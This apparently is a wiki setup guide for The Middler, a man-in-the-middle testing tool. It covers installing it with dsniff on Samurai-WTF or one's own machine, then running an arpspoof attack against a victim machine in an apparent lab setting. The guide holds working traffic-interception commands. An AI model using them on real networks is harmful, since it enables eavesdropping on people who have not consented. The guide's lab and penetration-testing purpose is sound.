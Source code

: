 = (Higher Bandwidth) Getting Set Up Using the Samurai WTF Bootable Linux Distribution =
 # Download the latest copy of Samurai-WTF at samurai.inguardians.com
 # Boot Samurai-WTF from the live CD or from a virtual environment like VMware.
 # Install Middler's dependencies by opening a terminal and running: <br> {{{sudo aptitude install libdumbnet-dev python-libpcap python-beautifulsoup python-scapy}}}
 # Install Middler by running: <br> {{{svn checkout http://middler.googlecode.com/svn/trunk/ middler-read-only}}}
 # Install dsniff so we can spoof ARP tables on victim machines (This functionality will be included in Middler within the next few weeks): <br> {{{sudo aptitude install dsniff}}}
 # Since middler needs to listen on port 80, shut down apache: <br> {{{sudo /etc/init.d/apache2 stop}}}

= Getting Set Up On Your Own Machine =
#. Install Python 2.6.x.

#. Download and install dsniff to allow The Middler to ARP spoof.

#. To let The Middler run dsniff's arpspoof, get the latest source from dsniff's page. Here's a direct link to dsniff 2.3 (stable). On Mac OSX, we found the 2+ year old beta, dsniff-2.4b1.tar.gz Dsniff 2.4 Beta 1 to work better.

#. On Linux, install the Netfilter Python module. This dependency is going away. You can download this stable source or do a Subversion checkout.

#  Install Middler by running: <br> {{{svn checkout http://middler.googlecode.com/svn/trunk/ middler-read-only}}}


= Playing with Middler =
 # Move into the Middler's directory: <br> {{{cd middler-read-only}}}
 # Start up Middler with: <br> {{{sudo ./middler.py}}}
 # Choose a victim computer (or start a second VM to pick on)
 # On the machine running Middler, start an arpspoof attack against your victim: <br> {{{arpspoof -i <interface> -t <victim_ip> <gateway_ip>}}}
 # On the victim machine, verify the gateway's MAC address is being spoofed: <br> {{{arp -n}}}
 # On the victim machine, open a browser and surf to www.frog.com